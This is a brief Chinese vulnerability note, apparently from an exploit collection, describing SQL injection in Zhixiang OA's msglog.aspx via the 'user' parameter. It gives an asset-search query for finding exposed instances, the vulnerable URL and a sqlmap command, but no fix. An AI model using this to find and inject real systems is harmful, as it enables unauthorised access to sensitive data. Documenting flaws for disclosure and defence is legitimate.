 # 致翔OA msglog.aspx SQL注入漏洞

## 漏洞描述

致翔OA msglog.aspx文件存在SQL注入漏洞，攻击者通过漏洞可获取敏感信息

## 漏洞影响

```
致翔OA
```

## 网络测绘

```
app="致翔软件-致翔OA"
```

## 漏洞复现

产品页面

![image-20220520142109952](./images/202205201421236.png)

存在漏洞的文件为 `msglog.aspx`,涉及注入的参数为 user

```
/mainpage/msglog.aspx?user=1
```

SQLMap跑一下

```
sqlmap -u http://127.0.0.1/mainpage/msglog.aspx?user=1 -p user --batch
```

![image-20220520142130999](./images/202205201421211.png)